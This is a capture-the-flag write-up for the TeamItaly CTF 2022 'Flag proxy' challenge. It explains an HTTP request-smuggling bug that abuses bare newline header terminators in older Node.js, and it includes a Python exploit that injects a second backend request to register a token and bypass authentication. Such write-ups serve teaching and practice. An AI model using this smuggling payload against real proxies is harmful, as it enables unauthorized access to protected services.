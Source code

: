 # TeamItaly CTF 2022

## Flag proxy (41 solves)

I just added authentication to my flag service (server-back) thanks to a proxy (server-front), but a friend said it's useless...

### Solution

The proxy's HTTP client can be exploited to make more than one request to the downstream server.  
These are not valid HTTP requests, because some headers use only `\n` as line terminator, but the downstream server will accept them (it's not appening anymore since Node.JS 18.5.0).

### Exploit

```python
import requests
import random
import string

URL = os.environ.get("URL", "http://flag-proxy.challs.teamitaly.eu")

token = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(20))

payload = 'AAAA\n'
payload += 'Content-Length: 0\n'
payload += 'Connection: keep-alive\n'
payload += '\n'
payload += f'GET /add-token?token={token} HTTP/1.0\n'
payload += 'Host: localhost'

response = requests.get(f"{URL}/flag", params={'token': payload})

print(response.text)

response = requests.get(f"{URL}/flag", params={'token': token})

print(response.text)
```
